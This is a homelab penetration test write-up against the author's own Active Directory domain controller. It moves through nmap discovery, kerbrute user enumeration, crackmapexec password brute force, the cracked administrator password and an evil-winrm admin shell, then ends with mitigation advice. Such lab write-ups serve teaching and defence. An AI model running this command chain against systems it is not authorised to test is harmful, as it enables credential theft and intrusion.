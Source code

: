 ```yaml
---
title: "Pentest workflow (Windows AD)"
date: 2025-09-18
tags: ["homelab","pentest","active-directory","ad","kerberos","evil-winrm"]
series: ["Homelab Labs"]
difficulty: "Intermediate"
platform: "Local Homelab"
summary: "Step-by-step notes from a homelab penetration test: discovery, enumeration, Kerberos user discovery, brute force, and admin shell with Evil-WinRM. Includes commands used and outputs captured during the exercise."
---
```


# Overview

Short notes from a homelab pentest exercise.
Goal: find an Active Directory host on my home network, enumerate, obtain valid credentials, and confirm a shell on the target using `evil-winrm`. Screenshots of important steps are included as placeholders below.

---

# Lab discovery

First perform an ICMP/host-discovery sweep across the LAN to find the AD server.

```bash
# Host discovery (ping sweep)
nmap -sn 192.168.0.0/24
```
**Result: target identified as 192.168.0.147.**

---

# Target service scan

Run an nmap service/version scan on the discovered target.

```bash
nmap -sV -sC 192.168.0.147
```
![Nmap scan output](/images/homelab/windows_pentest/nmap_recon.png)

---

**Conclusion: host appears to be an Active Directory domain controller (Kerberos, LDAP, AD ports present).**

# Kerberos user enumeration

Use kerbrute to enumerate valid Kerberos principals against the KDC.

```bash
kerbrute userenum --dc 192.168.0.147 -d homelab.local /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt
```

---

# Kerbrute output:

2025/09/18 18:37:26 >  Using KDC(s):
2025/09/18 18:37:26 >  	192.168.0.147:88

2025/09/18 18:37:26 >  [+] VALID USERNAME:	 administrator@homelab.local
2025/09/18 18:37:26 >  Done! Tested 17 usernames (1 valid) in 0.010 seconds


**Found a valid username: administrator@homelab.local**

![Kerbrute valid user](/images/homelab/windows_pentest/kerbrute.png)

---

# Password brute force

**Use crackmapexec against SMB to try password lists for the discovered user.**

```bash
crackmapexec smb 192.168.0.147 -u administrator -p /usr/share/wordlists/rockyou.txt
```
![CrackMapExec - bruteforce](/images/homelab/windows_pentest/crackmap_exec_bruteforce.png)

**Success!**

SMB 192.168.0.147   445    WIN-PKRRP8BT2N6  [+] homelab.local\administrator:Orbit9#sxT (Pwn3d!)

![CrackMapExec - valid creds](/images/homelab/windows_pentest/crackmap_exec_bruteforce_success.png)

---

# Gaining a shell (Evil-WinRM)

**With the discovered administrator credentials, use evil-winrm to obtain a remote PowerShell session.**

```bash
evil-winrm -i 192.168.0.147 -u administrator -p 'Orbit9#sxT'
```

**Expected: authenticated remote shell as administrator.**

![Evil-WinRM shell](/images/homelab/windows_pentest/evil-winrm.png)

---

# Proof of access

Create a simple file on the Administrator desktop as proof-of-compromise (example PowerShell command used via Evil-WinRM):

powershell -c "Set-Content -Path $env:USERPROFILE\Desktop\proof.txt -Value 'Proof: compromised via evil-winrm by basil9099 on 18/09/2025.'"

![Proof on Desktop](/images/homelab/windows_pentest/proof_of_compromised_machine.png)

**I did not do this, but generally a good idea to verify the file exists (via shell):**

type $env:USERPROFILE\Desktop\proof.txt
# or in evil-winrm:
ls C:\Users\Administrator\Desktop\proof.txt

![Proof on Desktop](/images/homelab/windows_pentest/windows_compromised.png)

---

# Notes, mitigations & lessons learned

- Kerberos user enumeration was effective — consider disabling anonymous user lookups where possible and monitoring for large numbers of AS-REQ/TGS-REQ attempts.

- Rate-limit and alert on authentication brute force activity; consider enforcing multifactor authentication for privileged accounts.

- Remove or restrict use of weak/guessable passwords for domain administrator accounts; apply password complexity and rotation rules.

- Avoid exposing plaintext services (FTP, HTTP) on networks where credential harvesting is possible.

- Keep NTP/time sync in AD to avoid Kerberos issues (and to avoid false positives during testing).

- Log and alert on unusual authentication activity, and monitor for tools/traffic patterns associated with Kerberoasting and brute force.
